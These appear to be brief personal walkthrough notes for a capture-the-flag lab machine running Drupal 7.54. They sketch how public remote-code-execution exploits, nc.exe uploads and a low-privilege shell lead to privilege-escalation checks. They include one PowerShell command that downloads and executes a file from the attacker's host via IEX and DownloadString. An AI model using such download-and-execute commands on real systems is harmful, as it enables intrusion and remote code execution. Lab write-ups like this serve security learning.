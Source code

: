 * Found Drupal version 7.54 in changelog file
* Google for exploits and find one that works and gives code execution
	* https://github.com/pimps/CVE-2018-7600
	* 
![[Pasted image 20210522161800.png]]
* This RCE ends up not being super useful, so try different cve
* Try using exploit https://www.ambionics.io/blog/drupal-services-module-rce
* From Ippsec's bastard video, make code adjustments for file upload and code execution:
![[Pasted image 20210522173826.png]]
![[Pasted image 20210522173946.png]]
* Use RCE to upload nc.exe
* Get shell as low priv user 
![[Pasted image 20210522174159.png]]
![[Pasted image 20210522174244.png]]
* manage to get sherlock running on box using command:
```shell
fexec=echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.9:8000/sherlock.exe") | powershell -noprofile -
```
![[Pasted image 20210523113332.png]]